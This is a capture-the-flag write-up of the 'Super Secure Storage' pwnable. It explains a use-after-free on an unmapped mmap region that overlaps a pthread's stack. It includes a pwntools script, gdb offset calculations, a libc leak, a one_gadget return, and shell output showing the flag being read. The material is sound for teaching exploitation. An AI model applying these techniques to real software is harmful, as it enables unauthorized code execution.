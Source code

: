 # Super Secure Storage

The first step of solving pwnables is usually running them,
so let's see what we got.

```
$ gdb ./service
$ checksec
CANARY    : ENABLED
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

Damn, that's a lot of protection!


A good start is to run the binary and see what functionality it has before
trying to reverse it.

This is the menu we're greeted with when running it:
```
Welcome to TG File Uploader v1.42
1. Register
2. Upload data
3. Show data
4. Update data
5. Store data securely
6. Delete data
7. Log out
8. Exit
```

Let's try to understand what the different menu options are doing.

### Register
Doesn't really let us do anything, but it initializes an important data
structure.

It does the following:
1. Reads 8 bytes from `/dev/urandom` to initialize an XOR key
2. Initializes a pthread mutex
3. Initializes a pthread conditional variable

### Upload
Enables us to upload data.
We have to specify a size, and then the program proceeds to read that many
bytes. However, the size is rounded up to the nearest `PAGE_SIZE` (4096). The
data is allocated using `mmap()`, which will be important later!

### Show
If we upload some data, we can view it using this menu option. Either as text,
or an array of integers. There's no checking to see if we entered more than 4
characters, but this doesn't seem exploitable in any way.

### Update
Update the data we stored earlier. Nothing special here, the size is still the
same as before.

### Store
This is a really weird function. It will start a new pthread if one doesn't
already exist. The pthread runs a function that waits for a conditional
variable, and XOR's the data specified when signalled.
 
### Delete
Unmaps the memory allocated by `upload()`. This function does not set the
pointer to `NULL`, which means we have a nice UAF bug!

### Log out
Signals the pthread to exit, and then asks if we really want to quit. If we
answer `y`, the global user structure will be zeroed.

Finding a way to exploit the `mmap` UAF bug is the first step. Thankfully, the
program uses phtreads. It's possible to have an `mmap()`ed region overlap with
the stack of a pthread if the sizes match! The stack size of a pthread on
Ubuntu is 8 MB, so we can assume that the target system also has this value.

1. Register a user
2. upload 8 MB (stack size) of data
3. delete the data (we now have a pointer to an munmap()ed region
4. store the data, leading to the creation of a pthread
5. show the data as an array, thus leaking the return address used by the
pthread
6. update the data, overwriting the pthread stack with data controlled by us

There are a few things we have to figure out before we can pwn the binary.
* What's the offset from the start of our mmap()ed region to the return address
on the stack?
* What's the offset from the leaked memory address to the libc base?
* What address should we return to?

To find the required offsets, we attach to the running process with gdb after
triggering the bug. First of all, following is the code to perform all the
required actions so far:

```python
from pwn import *

r = process("./service")
context(terminal = ["tmux", "splitw"])
gdb.attach(r, """
	c
	""")

def register():
    r.sendline("1")
    r.recvuntil(">")

def upload(data):
    r.sendline("2")
    r.recvuntil("Size: ")
    r.sendline(str(len(data)))
    r.recvuntil("Data: ")
    r.send(data)
    r.recvuntil(">")

def update(data):
    r.sendline("4")
    r.recvuntil("Data: ")
    r.send(data)
    r.recvuntil(">")

def delete():
    r.sendline("6")
    r.recvuntil(">")

def store():
    r.sendline("5")
    r.recvuntil(") ")
    r.sendline("24")
    r.recvuntil(">")

def show(start, stop=0):
    ret = []
    r.sendline("3")
    r.recvuntil(">")
    r.sendline("2")
    r.recvuntil("start:")
    r.sendline(str(start))
    r.recvuntil("stop:")
    if stop == 0:
        stop = start + 1
    r.sendline(str(stop))

    for i in range(start, stop):
        r.recvuntil(": ")
        addr = r.recvline()
        ret.append(int(addr, 10))

    r.recvuntil(">")
    return ret

size = (1024 * 1024 * 8)
data = "A"* size

register()
upload(data)
delete()
store()

r.close()
```

The code will split a tmux pane in half and automatically attach gdb.
You can also attach using the PID of the service process.

```
(gdb) thread
[Current thread is 1 (Thread 0x7f169be12700 (LWP 2799))]
(gdb) thread apply 2 bt

Thread 2 (Thread 0x7f169b60f700 (LWP 2811)):
#0  pthread_cond_wait@@GLIBC_2.3.2 ()
    at ../sysdeps/unix/sysv/linux/x86_64/pthread_cond_wait.S:185
#1  0x0000564572e560b3 in ?? ()
#2  0x00007f169b60f700 in ?? ()
#3  0x00007f169b9e16ba in start_thread (arg=0x7f169b60f700)
    at pthread_create.c:333
#4  0x00007f169b71741d in clone ()
    at ../sysdeps/unix/sysv/linux/x86_64/clone.S:109
(gdb) thread apply 2 i r rsp

Thread 2 (Thread 0x7f169b60f700 (LWP 2811)):
rsp            0x7f169b60ef20   0x7f169b60ef20
(gdb) x/10a 0x7f169b60ef20
0x7f169b60ef20: 0x0     0x5645730580b0
0x7f169b60ef30: 0x564573058088  0x0
0x7f169b60ef40: 0x7f169b60f700  0x564572e560b3
0x7f169b60ef50: 0x7f169b60f700  0x7f169b9e16ba <start_thread+202>
0x7f169b60ef60: 0x0     0x7f169b60f700
```

We can see that the address at 0x7f169b60ef48 matches the return address in the
backtrace of thread 2 (0x564572e560b3). We can overwrite this value to hijack
the control flow of the program. By looking at `/proc/<pid>/maps`, or running
`vmmap` in `gdb-peda`, we find that the stack of thread 2 starts at address
0x7f169ae10000 and ends at 0x7f169b610000.

To find a valid target to return to, we need to defeat ASLR first. If we
continue looking for interesting values to leak, we stumble upon a memory
address that is located inside libc. At address 0x7f169b60eff8 gdb tells us that
we have `clone+109` (0x7f169b71741d). This is the address of the `clone`
function inside libc, plus 109.

To calculate the offsets we do:
```
(gdb) p 0x7f169b60ef48 - 0x7f169ae10000
$1 = 8384328
(gdb) p 0x7f169b60eff8 - 0x7f169ae10000
$2 = 8384504
```

In pseudo-code:
```C
ret_offset = pthread_ret_addr - mmap_base;
libc_leak = phtread_clone_addr - mmap_base;
```

With these two offsets we can continue on with our exploit.

To figure out what we should return to, we can use the fantastic tool
[one_gadget](https://github.com/david942j/one_gadget). If we are lazy, we can
just test all the different gadgets instead of checking the constraints in gdb.

If we put it all together, we end up with a nice exploit. You can see it
[here](src/upload.py).

```
$ python2 upload.py
Opening connection to storage.tghack.no on port 1337: Done
[*] leak: 0x7fa8418ab41d
[*] libc base: 0x7fa8417a4000
[+] getting shell
[*] Switching to interactive mode
$ id
uid=1000(pewz) gid=1000(pewz) groups=1000(pewz),27(sudo),110(lxd),999(docker)
$ cat flag.txt
TG18{h3lp_s0me0ne_st0l3_my_st4ck!}
```
